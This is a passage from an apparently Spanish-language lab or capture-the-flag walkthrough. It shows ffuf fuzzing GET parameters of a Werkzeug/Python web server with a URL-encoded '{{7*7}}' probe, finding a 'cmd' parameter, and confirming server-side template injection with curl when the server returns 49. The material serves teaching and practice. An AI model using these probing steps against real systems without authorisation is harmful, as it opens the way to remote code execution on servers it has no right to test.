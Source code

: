 Vemos que efectivamente esta intentando manejar esta informacion pero peta el sevidor con un `500` por lo que vamos bien, vamos a realizar `fuzzing` para ver que parametro es el que puede ejecutar esto mismo.

### FFUF

```shell
ffuf -ic -c -w <WORDLIST> -u 'http://<IP>:50000/?FUZZ=%7B%7B7*7%7D%7D' -fs 290
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.5.27:50000/?FUZZ=%7B%7B7*7%7D%7D
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 290
________________________________________________

cmd                     [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 373ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

Veremos que ha funcionado con el parametro `cmd` por lo que vamos a comprobarlo con un `curl`.

```shell
curl -i 'http://<IP>:50000/?cmd=%7B%7B7*7%7D%7D' # {{7*7}}
```

Info:

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 2
Server: Werkzeug/2.0.2 Python/3.9.2
Date: Fri, 23 May 2025 08:00:28 GMT

49
```
